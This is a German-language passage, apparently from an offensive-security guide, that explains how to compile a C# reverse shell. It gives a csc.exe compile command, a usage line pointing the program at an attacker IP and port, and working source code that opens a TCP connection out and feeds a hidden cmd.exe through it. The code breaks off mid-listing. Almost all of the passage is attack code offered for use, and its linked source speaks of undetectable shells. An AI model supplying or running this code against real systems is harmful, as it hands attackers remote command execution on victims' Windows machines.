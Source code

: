 ### Kompilierung unserer eigenen Reverse Shell

https://medium.com/@Bank\_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### Erste C# Revershell

Kompilieren Sie es mit:
```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```
Verwenden Sie es mit:
```
back.exe <ATTACKER_IP> <PORT>
```

```csharp
// From https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
public class Program
{
static StreamWriter streamWriter;

public static void Main(string[] args)
{
using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
{
using(Stream stream = client.GetStream())
{
using(StreamReader rdr = new StreamReader(stream))
{
streamWriter = new StreamWriter(stream);

StringBuilder strInput = new StringBuilder();

Process p = new Process();
p.StartInfo.FileName = "cmd.exe";
p.StartInfo.CreateNoWindow = true;
p.StartInfo.UseShellExecute = false;
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.RedirectStandardInput = true;
p.StartInfo.RedirectStandardError = true;
p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
p.Start();
p.BeginOutputReadLine();

while(true)
{
strInput.Append(rdr.ReadLine());
//strInput.Append("\n");
p.StandardInput.WriteLine(strInput);
strInput.Remove(0, strInput.Length);
}
```